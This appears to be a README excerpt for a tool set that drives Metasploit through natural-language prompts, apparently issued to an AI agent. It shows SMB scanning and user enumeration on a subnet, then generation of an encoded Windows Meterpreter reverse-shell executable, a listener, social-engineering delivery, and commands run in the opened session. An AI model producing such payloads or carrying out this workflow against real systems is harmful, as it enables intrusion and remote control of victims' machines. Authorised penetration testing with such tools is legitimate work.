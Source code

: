 ### Example 2: Reconnaissance Workflow

```python
# 1. Port scanning
"Scan 192.168.1.0/24 for open SMB ports"
run_auxiliary_module(
    module_name="scanner/smb/smb_version",
    options={"RHOSTS": "192.168.1.0/24", "THREADS": 20}
)

# 2. Service identification
"Enumerate SMB shares on 192.168.1.100"
run_auxiliary_module(
    module_name="scanner/smb/smb_enumshares",
    options={"RHOSTS": "192.168.1.100"}
)

# 3. User enumeration
"List SMB users on 192.168.1.100"
run_auxiliary_module(
    module_name="scanner/smb/smb_enumusers",
    options={"RHOSTS": "192.168.1.100"}
)
```

### Example 3: Payload Generation and Delivery

```python
# 1. Generate payload
"Create a Windows reverse shell exe for 192.168.1.10:4444"
generate_payload(
    payload_type="windows/meterpreter/reverse_tcp",
    format_type="exe",
    options={"LHOST": "192.168.1.10", "LPORT": 4444},
    encoder="x86/shikata_ga_nai",
    iterations=3
)
# Returns: /home/user/payloads/payload_windows_meterpreter_reverse_tcp_20251018.exe

# 2. Start handler FIRST
"Start a handler for Windows Meterpreter on port 4444"
start_listener(
    payload_type="windows/meterpreter/reverse_tcp",
    lhost="0.0.0.0",
    lport=4444
)

# 3. Deliver payload to target (out of scope for these tools)
# ... social engineering, web delivery, etc. ...

# 4. Wait for connection
"What sessions are active?"
# Returns: Session 1 when payload executes

# 5. Interact
"Run whoami in session 1"
```
